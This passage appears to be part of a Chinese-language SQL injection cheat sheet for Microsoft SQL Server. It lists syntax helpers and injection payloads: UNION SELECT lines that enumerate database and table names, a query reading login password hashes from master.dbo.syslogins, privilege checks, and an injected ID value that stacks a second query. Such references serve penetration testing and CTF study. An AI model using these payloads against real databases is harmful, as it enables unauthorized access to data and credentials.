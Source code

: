 ## MSSQL

- 子字串：
    - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `+`
    - `'a'+'b' => 'ab'`
- Delay function
    - `WAIT FOR DELAY '0:0:10'`
- 空白字元
    - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF 語句
    - IF condition true-part ELSE false-part
    - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 註解：
    - `--`
    - `/**/`
- TOP
    - MSSQL 沒有 `LIMIT N, M` 的用法
    - `SELECT TOP 87 * FROM xxx` 取最前面 87 筆
    - 取第 78~87 筆
        - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
    - user
    - db_name()
    - user_name()
    - @@version
    - @@language
    - @@servername
    - host_name()
    - has_dbaccess('master')
- 查詢用戶 
    - `select name, loginame from master..syslogins, master..sysprocesses`
- 查用戶密碼 
    - `select user,password from master.dbo.syslogins`
- 當前角色是否為資料庫管理員
    - `SELECT is_srvrolemember('sysadmin')`
- 當前角色是否為db_owner
    - `SELECT  IS_MEMBER('db_owner')`
- 爆DB name
    - ```DB_NAME(N)```
    - ```UNION SELECT NULL,DB_NAME(N),NULL--```
    - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
    - `SELECT catalog_name FROM information_schema.schemata`
    - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
    - `SELECT table_catalog, table_name FROM information_schema.tables`
    - `SELECT name FROM sysobjects WHERE xtype='U'`
    - `ID=02';if (select top 1 name from DBname..sysobjects where xtype='U' and name not in ('table1', 'table2'))>0 select 1--`
